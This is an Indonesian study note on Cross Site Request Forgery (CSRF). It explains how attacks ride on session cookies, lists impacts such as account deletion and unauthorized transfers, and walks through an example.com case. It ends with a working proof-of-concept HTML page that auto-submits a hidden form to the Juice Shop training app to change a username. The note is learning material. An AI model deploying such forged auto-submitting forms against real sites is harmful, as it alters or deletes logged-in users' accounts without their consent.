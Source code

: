 ```yaml
---
cssclasses:
  - h1-center
  - indent
tags:
  - "#webdeveloper"
Tanggal: 2025-01-07
---
```

# **Cross Site Request Forgery (CSRF)**
---

> [!tip]- Sumber
> - [[Cookie]]

### WTF is Cross Site Request Forgery (CSRF)?

CSRF atau yang disebut juga Cross Site Request Forgery adalah salah satu jenis serangan pada keamanan web yang memanfaatkan session yang tersimpan di dalam file cookie's dari pengguna yang sudah ter-autentikasi. 

![[Pasted image 20250108004054.png|600]]Bisa dilihat dari nama nya serangan ini akan memungkinkan si penyerang mengirimkan request yang tidak diinginkan atas nama pengguna yang sedang login pada sebuah website tanpa sepengetahuan pengguna tersebut.

Dampak dari serangan ini bisanya seperti:
- Transfer uang tanpa izin
- Penghapusan akun
- Perubahan penngaturan akun (username, email, password)
- dll

### Bagaimana Cross Site Request Forgery (CSRF) ini bekerja?

> [!info] Baca ini
> [[Cookie#How it works]]

> [!important] Studi Kasus
> Website: example.com
> Action: Penghapusan akun

1. Ketika kita masuk dan login ke dalam website maka server akan mengesahkan pengguna dan akan menyimpan session authentikasi tersebut di dalam file cookie. Ini yang nantinya akan digunakan oleh penyerang untuk melakukan CSFR.
2. Kemudian penyerang akan membuat sebuah website ataupun link palsu yang akan digunakan untuk mengirimkan sebuah delete request kepada endpoint server example.com yang akan menghapus akun pengguna tanpa disadari.
3. Karena terdapat file cookie yang menyimpan session autentikasi pengguna maka request tersebut akan dianggap sah dan akun akan terhapus

![[Pasted image 20250108013258.png|500]]
### Example
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <form action="https://juice-shop.herokuapp.com/profile" method="post">
        <input type="hidden" name="username" value="GG COYYY">
    </form>
</body>
<script>
    history.pushState('', '', '/');
    document.forms[0].submit();
</script>
</html>
```